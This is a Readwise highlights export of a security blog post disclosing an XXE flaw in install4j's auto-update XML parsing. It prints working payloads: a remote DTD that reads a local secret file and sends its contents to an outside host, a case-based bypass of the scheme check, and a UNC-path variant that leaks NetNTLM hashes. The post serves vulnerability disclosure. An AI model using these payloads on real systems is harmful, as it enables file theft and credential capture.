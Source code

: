 ```yaml
---
author: "Frycos Security Diary"
aliases: "XXE With Auto-Update in Install4j"
tags: RW_inbox, readwise/articles
url: https://frycos.github.io/vulns4free/2023/02/12/install4j-xxe.html
date: 2025-01-09
---
```

# XXE With Auto-Update in Install4j

![rw-book-cover](https://frycos.github.io/assets/images/install4j/install4j_3.png)

## Highlights


XXE with Auto-Update in install4j
> [View Highlight](https://read.readwise.io/read/01jh5p4swf378433x5ftcbswsg)



install4j is a powerful multi-platform Java installer builder that generates native installers and application launchers for Java applications.
> [View Highlight](https://read.readwise.io/read/01jh5p52jtg3thdcx0z22bstvw)



The latest version **10.0.4** (and former versions) of **install4j** is vulnerable to a XML External Entity (XXE) attack. Products using install4j with its **(automatic) update** feature could be exploited, if connections to the *update server* are successfully controlled in some way. If any affected product triggers an update check (scheduled or manually), the update server responds with a *XML file* containing information about available software versions with attributes pointing to the newest version, file hashes for verification etc. This delivered XML content is read by the client system with the product installed and **parsed insecurely**.
> [View Highlight](https://read.readwise.io/read/01jh5p5cykzdr4devpazbtbcg6)



It seems some default XXE mitigations were put into place by the `downloadExternalEntities` member being set to `false` as mentioned above. This will lead us into the `if` branch at `[6]`, checking for `PUBLIC` and `SYSTEM` identifiers in the XML being parsed. Even though `startsWith("http:/")` and `startsWith("https:/")` checks at `[7]` should take care of preventing disallowed **(external) entities and document type declarations**, referencing a remote **DTD** file then being fetched with a HTTP request, this can be easily bypassed by e.g. using **UPPERCASE** protocol handler definitions such as `SYSTEM "HTTP://ATTACKERSERVER/BAD.DTD"`. Finally, the dangerous sink at `[8]` is called. Additionally other file protocol handlers such as `file://` or `jar://` are not taken into account, yet. Note that the `EntityResolver` protection given by [OWASP XXE Mitigations](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#no-op-entityresolver) is more restrictive and should have been the way to go.
> [View Highlight](https://read.readwise.io/read/01jh5pfw7a3q49s6psmcwn9dzb)



But in general, several cases allow an easy hijack of the update server communication:
 • The product chooses to use HTTP instead of HTTPS connections
 • The `acceptAllCertificates` attribute is set to `true` in the install4j configuration file such that TLS/SSL verification gets deactivated with help of the install4j method `private Runnable acceptAllCertificates()`
 • A central TLS/SSL inspection component would break the trusted chain of verification depending on its (mis)configuration (already seen “in-the-wild” :-P)
 • There exist other cases but this is not the main purpose of this blog post to list them all
 Note that this hijacking part is not a vulnerability in install4j itself but depends on certain configurations of install4j and server infrastructure on the affected product side, respectively. Nevertheless, this is a valid attack vector and should not lead to a vulnerable sink indeed existing in install4j: the XXE described above.
> [View Highlight](https://read.readwise.io/read/01jh5phy9h0z6th220cmgprqv3)



The following XML content will be delivered then by our attacker server:
> [View Highlight](https://read.readwise.io/read/01jh5pn0d89xw5mrax740qx27d)



<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE data SYSTEM "HTTP://downloads.prosysopc.com/XXE.dtd"> <data>&send;</data>
> [View Highlight](https://read.readwise.io/read/01jh5pn4mcw3pz7690ac2jx2d1)



This will fetch the `DTD` file remotely from the same update server with the following content:
 <!ENTITY % file SYSTEM "file:///C:/Users/user/Desktop/secret.txt">
 <!ENTITY % all "<!ENTITY send SYSTEM 'HTTP://downloads.prosysopc.com/%file;'>">
 %all;
> [View Highlight](https://read.readwise.io/read/01jh5pndqpdg26qns81xda0mf6)



Since this is a Windows system, we could create XXE payloads with `file://` protocol handlers. Defining a remote network share could then lead to leakage of hashed Windows server credentials (NetNTLM hash). These hashes could be cracked (or relayed) and used to directly login into the victim machines etc.
> [View Highlight](https://read.readwise.io/read/01jh5pr077vecjn6vnj9mhsnrn)



<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE data SYSTEM "file:////downloads.prosysopc.com/myshare/file.dll"> <data>&send;</data>
> [View Highlight](https://read.readwise.io/read/01jh5pr53caj6gmajzcq91mhmx)



There are even more attack vectors by using the `jar://` protocol handler, fetching a remote JAR file with attacker-controlled arbitrary file content (it even doesn’t have to be a JAR file). This is a variant of arbitrary file upload and could be used in further exploitation steps, depending on the specific target. For a beautiful chain read [this blog post](https://www.horizon3.ai/red-team-blog-cve-2022-28219/) for example.
> [View Highlight](https://read.readwise.io/read/01jh5prrjzh3ccartqsyc27mp3)

